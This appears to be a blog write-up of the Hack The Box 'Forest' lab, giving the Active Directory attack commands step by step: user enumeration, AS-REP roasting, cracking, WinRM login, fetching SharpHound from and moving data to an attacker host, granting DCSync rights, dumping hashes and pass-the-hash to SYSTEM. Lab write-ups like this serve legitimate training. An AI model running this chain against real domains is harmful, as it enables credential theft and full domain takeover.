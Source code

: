 ```yaml
---
layout: post
title: "Forest"
date: 2024-12-28
categories: hackthebox
---
```


ya bissmillah , first box in playlist 

as any box we will start with nmaP

`sudo nmap -sC -sV -p-  -T4 10.10.10.161 -oN FOREST` 
![[Pasted image 20240522201952.png]]
kerberos ,ldap ,smb, rpc   that's a DC but without DNS (port 53 ) which is weird

let's check null session agains smb and ldap and rpc

`ldap null session is allowed  nxc ldap 10.10.10.161  -u '' -p ''  --users`
![[Pasted image 20240522202946.png]]====

==we can enumerate users with null session and rpc ==
![[Pasted image 20240522203256.png]]

nothing for smb until now 

let's create a wordlists and try asreproasting
`rpcclient 10.10.10.161 -U  '' -N -c  enumdomusers | cut -d '[' -f 2 | cut -d ']' -f 1`
![[Pasted image 20240522204005.png]]


==asreproasting==
`nxc ldap 10.10.10.161  -u users.txt -p ''  --asreproast asreproast `
![[Pasted image 20240522204136.png]]

==hashcat==
using rockyou.txt
![[Pasted image 20240522204214.png]]

enumerate using ==ldapdomaindump==
`python3 ldapdomaindump.py --user 'HTB\svc-alfresco' --password s3rvice --outdir ldapdomaindump 10.10.10.161`
![[Pasted image 20240522213314.png]]

if we took a look on the user ==svc-alfresco==
![[Pasted image 20240522213429.png]]
![[Pasted image 20240522213602.png]]

our group is member of the group , ==Remote Management Users== 
so we can use ==evil-winrm== to login
`evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p s3rvice
`
![[Pasted image 20240522213808.png]]

when I got creds , I tried bloodhound-python but that didn't work because of the stupid DNS
now I will use sharphound.exe
![[Pasted image 20240522214203.png]]
on the windows box 
`wget -Uri http://10.10.14.15/SharpHound.exe -Outfile SharpHound.exe`

![[Pasted image 20240522214319.png]]

`.\SharpHound.exe -c all`
![[Pasted image 20240522214543.png]]

now we have bloodhound.zip files , let's move it to our machine , the easiest way  to do that is by hosting a smbserver using impacket

`impacket-smbserver -smb2support share .`
![[Pasted image 20240522214723.png]]

`move 20240522135040_BloodHound.zip \\10.10.14.15\share` 
and we should have the file on our machine 


now we could use bloodhound  
great article about setting up bloodhound  https://blog.spookysec.net/Deploying-BHCE/

![[Pasted image 20240522221736.png]]

the ==genericall== we could use it to add our user to the exchange group
![[Pasted image 20240522221909.png]]

`net rpc group addmem "EXCHANGE WINDOWS PERMISSIONS" "d0s3nt" -U "HTB.LOCAL"/"svc-alfresco"%"s3rvice" -S "10.10.10.161"`

![[Pasted image 20240522222023.png]]
we could check using 
`net rpc group members "EXCHANGE WINDOWS PERMISSIONS" -U "HTB.LOCAL"/"svc-alfresco"%"s3rvice" -S "10.10.10.161"`
![[Pasted image 20240522222059.png]]

we can use ==WriteDacl== to add ourself the necssary ACL to perform DCSync

![[Pasted image 20240522222628.png]]
setting Up this tool was nightmare, I fellow this  https://www.youtube.com/watch?v=O_VeRoT1f1k
I found the script here https://github.com/ShutdownRepo/impacket/blob/04518279ef663e80195b61d4d864d6e9e8ac5d9f/examples/dacledit.py

`dacledit.py -action 'write' -rights 'DCSync' -principal 'svc-alfresco' -target-dn 'DC=HTB,DC=LOCAL' 'HTB.LOCAL'/'svc-alfresco':'s3rvice'`
![[Pasted image 20240522222912.png]]
nb : if it didn't work re run the net rpc command to add the user to the exchange groupe again
`impacket-secretsdump HTB.LOCAL/svc-alfresco:s3rvice@10.10.10.161`
![[Pasted image 20240522223613.png]]
using the hash we could get shell as SYSTEM using psexec

`impacket-psexec HTB.LOCAL/administrator@10.10.10.161 -hashes: 32693b11e6aa90eb43d32c72a07ceea6`
![[Pasted image 20240522224115.png]]


if we are in a real word scenario we could backtrack our modification by 
`dacledit.py -action 'remove' -rights 'DCSync' -principal 'svc-alfresco'-target-dn 'DC=HTB,DC=LOCAL' 'HTB.LOCAL'/'svc-alfresco':'s3rvice'`

when I was doing the box powerview function `Add-DomainObjectAcl` didn't work and hang on evil-wirm without response after watching ippsec , seems that the command on bloodhound graphing tool wasn't correct which is weird 

this should work  https://burmat.gitbook.io/security/hacking/domain-exploitation
``Add-DomainObjectAcl -TargetIdentity "DC=burmatco,DC=local" -PrincipalIdentity useracct1 -Rights DCSync``
